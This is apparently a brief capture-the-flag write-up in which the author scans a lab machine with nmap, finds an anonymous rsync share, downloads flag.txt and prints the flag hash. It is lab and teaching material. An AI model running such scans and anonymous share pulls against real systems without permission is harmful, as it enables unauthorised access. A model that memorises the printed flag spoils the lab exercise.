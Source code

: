 ```php
nmap -sV -A -p- 10.129.155.6

Not shown: 65534 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

Port 873 running `rsync` version 31

```php
rsync rsync://10.129.155.6/
public         	Anonymous Share
```

we find a share for `public` and `Anonymous Share`
Lets download the `flag.txt` file from the `public` share

```php
rsync -av rsync://10.129.155.6/public/flag.txt .
receiving incremental file list
flag.txt
sent 43 bytes  received 135 bytes  27.38 bytes/sec
total size is 33  speedup is 0.19
```

View `flag.txt` contents

```php
cat flag.txt 
72eaf5344ebb84908ae543a719830519
```

We have rooted this machine.